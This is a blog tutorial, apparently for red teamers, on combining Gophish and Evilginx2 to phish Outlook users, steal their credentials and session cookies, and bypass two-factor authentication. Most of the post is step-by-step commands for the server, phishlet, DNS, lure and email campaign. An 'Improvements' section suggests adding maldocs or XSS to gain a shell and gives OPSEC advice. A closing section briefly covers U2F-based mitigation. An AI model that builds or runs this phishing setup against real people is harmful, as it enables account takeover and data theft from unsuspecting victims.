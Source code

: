 ```yaml
---
title: Passing the Phish II
subtitle: Integrating Gophish & Evilginx for Session Hijacking and Bypassing 2FA Authentication
author: Babligan
date: 2021-06-28 00:34:00 +0800
categories: [Infrastructure]
tags: [gophish, evilginx, phishing]
---
```


At this point, we've should have covered the following according to the previous [post](https://babligan.github.io/posts/passing-the-phish/). 
- [x] Installation of Gophish
- [x] Setup SendGrid as our SMTP server
- [ ] Installation of Evilginx and setting up a lure
- [ ] Integrating Gophish and evilginx

In this post we'll cover the remaining bits. 

#### 3. Installing and Running evilginx

We'll install evilginx on our second server. The official usage and installation of evilginx are available on the tool's official [Github project page](https://github.com/kgretzky/evilginx2). Before installing evilginx, we have to install Go of at least version 1.14.0.

To do so, follow these steps:

```shell
wget https://golang.org/dl/go1.16.5.linux-amd64.tar.gz
sudo rm -rf /usr/local/go && sudo tar -C /usr/local -xzf go1.16.5.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
source $HOME/.profile
```

Finally verify that you have GO installed.

```shell
go version
```

When you have GO installed, type in the following:

```shell
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```

If you get this error, export the PATH variable again and reload bash.
![[error.png]](/assets/img/gophish/error.png)

Now that we have evilginx installed, let's run it. To do so run:

```shell
sudo ./bin/evilginx -p ./phishlets/
```

**IMPORTANT:** Ensure that there's no service running on ports TCP 443, TCP 80 and UDP 53. You may need to shutdown apache or nginx and any service used for resolving DNS that may be running. evilginx2 will tell you on launch if it fails to open a listening socket on any of these ports.
![[first-run.png]](/assets/img/gophish/first-run.png)

If you get this error, you'll want to check what service is using port 53 (it should be your default DNS resolver, so we just need to stop it and let evilginx run it's own in-built DNS server.)

```shell
sudo lsof -i :53
```

![[lsof.png]](/assets/img/gophish/lsof.png)

Then we'll stop it either by stopping the service or killing it using its PID then edit the resolv.conf file to use Google's DNS servers. If the echo command doesn't work, use nano or vim instead.

```shell
sudo systemctl stop systemd-resolved
rm /etc/resolv.conf
echo 'nameserver 8.8.8.8' > /etc/resolv.conf
```

When we restart evilginx, it should be fine.
![[second-run.png]](/assets/img/gophish/second-run.png)

The next step is the configuration of Evilginx. You have to specify the domain name and the IP address of your server:

```shell
config domain domain-name.com
config ip 1.2.3.4
```

![[config.png]](/assets/img/gophish/config.png)

Evilginx creates phishing links using phishlets. A phishlet is a YAML file that contains configuration to phish a specific website. You can access all the pre-defined phishlets at `/evilginx/phishlets` or you could view the available phishlets by typing `phishlets`.

![[phishlets.png]](/assets/img/gophish/phishlets.png)

To activate a phishlet, run the following command:
`phishlets hostname <phishlet> <hostname>` where the hostname is our domain. In our case, we want to use the outlook phishet. Therefore:

```shell
phishlets hostname outlook domain-name.com
```

![[activate.png]](/assets/img/gophish/activate.png)

For Evilginx to work correctly as a proxy, you will also have to configure the same sub-domains. To know which sub-domains are required, type:

```shell
phishlets get-hosts outlook
```

![[gethosts.png]](/assets/img/gophish/gethosts.png)

We have 3 subdomains to register: outlook, login and account. We'll register these using CNAME records on our domain registrar. On our hosting site (I'm using namechep, but the configuration is usually the same across registrars), we'll register 4 DNS records. The first will be an A record which points to the IP address of our VPS and the rest will be CNAME records for our sub-domains. One thing to note here, we don’t need to copy the `domain-name.com` part, we just need the preceding string.

![[dns.png]](/assets/img/gophish/dns.png)

Once your records have resolved (it usually takes less than 3 minutes or you could confirm with [DNSChecker](https://dnschecker.com)), we can continue with enabling our phish. To do so we run:

```shell
phishlets enable outlook
```

When enabling a phishlet, Evilginx will try to request SSL certificates from LetsEncrypt for the different sub-domains.

![[enable.png]](/assets/img/gophish/enable2.png)

Now that our phish is enabled, we'll generate a lure which is basically the link that a target clicks on. The lures have to be attached with our desired phishlet and a redirect has to be set to point towards the legitimate website that we are trying to harvest credentials for, otherwise they'll be rickrolled.

```shell
lures create outlook
lures edit 0 redirect_url https://outlook.live.com/owa/?nlp=1
lures get-url 0
```

![[lures.png]](/assets/img/gophish/lures2.png)

If you wanted to change the hostname of your lure you'd use one of the subdomains that we registered and set it as follows:

```shell
lures edit 0 hostname login.domain-name.com
```

Then you can go head and get the URL associated with the new hostname.

```shell
lures get-url 0
```

Once a target clicks on our URL, they will be sent to our phishlet. And when they enter the correct credentials, we can capture them and redirect them to the right location.

![[creds.png]](/assets/img/gophish/creds2.png)

Now that we've verified that everything works, let's tie it all together. The captured token can be imported into a browser with the EditThisCookie extension for example. By adding the cookie, the authentication is completely bypassed (even the 2FA) and the attacker has a complete access to the victim's account.

![[sessions2.png]](/assets/img/gophish/sessions2.png)

#### 4. Create and Deploy our Phish

Back to Gophish's email template and now we can craft the email we want to send our target. I'll use a simple template from [crigg626 Github repo](https://github.com/criggs626/PhishingTemplates). I'll use the [Webmail Upgrade](https://github.com/criggs626/PhishingTemplates/blob/master/emails/Upgrade%20Webmail.html) template but feel free to use whichever one.
![[final-template.png]](/assets/img/gophish/final-template.png)

Just to make sure that it would land, I edited the href tag in the HTML code to point to our evilginx link.
![[href.png]](/assets/img/gophish/href.png)

To integrate our evilginx link, we'll edit our Landing page and import the link.
![[final-landing.png]](/assets/img/gophish/final-landing.png)
![[import.png]](/assets/img/gophish/import.png)

After we've checked that all sections have been filled correctly, we can finally launch our campaign.
![[final-campaign.png]](/assets/img/gophish/final-campaign.png)

When we check our email, we find it. Yay!
![[email.png]](/assets/img/gophish/email.png)

When we click the link it opens a new tab, which is the outlook login page we had setup with evilginx. (you might have to clear your browser cache or use a different browser entirely). We sign in with some dummy creds and we are able to retrieve them on our evilginx server.

![[redirect.png]](/assets/img/gophish/redirect.png)
![[sessions.png]](/assets/img/gophish/sessions.png)

### Improvements

1. To make the phishing email even more effective, you can choose to integrate it with a technique that is able to yield a shell. XSS, Maldocs, CSRF, HTML smuggling and many others can work.
2. For OPSEC, it is best to use infrastructure that you have complete control over. So, instead of using SendGrid, you can use your own mail server.
3. Ensure that you use TLS on **ALL** your phishing infrastructure which includes Gophish's listening server.

### Mitigation

1. For this type of attack, the primary defense would always be exercising a little bit of paranoia. **Always check the legitimacy of the domain that's visible on the address bar.**
2. However, this wouldn't be enough for big companies as it just requires one  user to submit their correct credetials and just like that attackers are able to steal large amounts of data. This is where U2F for unphishable 2nd factor authentication comes in. It uses a physical hardware that you plug into a USB port and you just press a button when the website asks you to. The U2F protocol is designed to take the website's domain as one of the key components in negotiating the handshake. This means that if the domain in the browser's address bar, does not match the domain used in the data transmission between the website and the U2F device, the communication will simply fail. This solution leaves no room for error and is totally unphishable using Evilginx method.

I hope you've learnt one or two things from this article. Be sure to check out these resources. Special thanks to [Gabriel](https://twitter.com/_thevivi) for reviewing this ~~long ass~~ post. If you have any questions, or if there's something I might have missed out, feel free to DM me on [Twitter](https://twitter.com/babligan). 

- <https://breakdev.org/evilginx-2-next-generation-of-phishing-2fa-tokens/>
- <https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/>
- <https://github.com/kgretzky/evilginx2>
- 
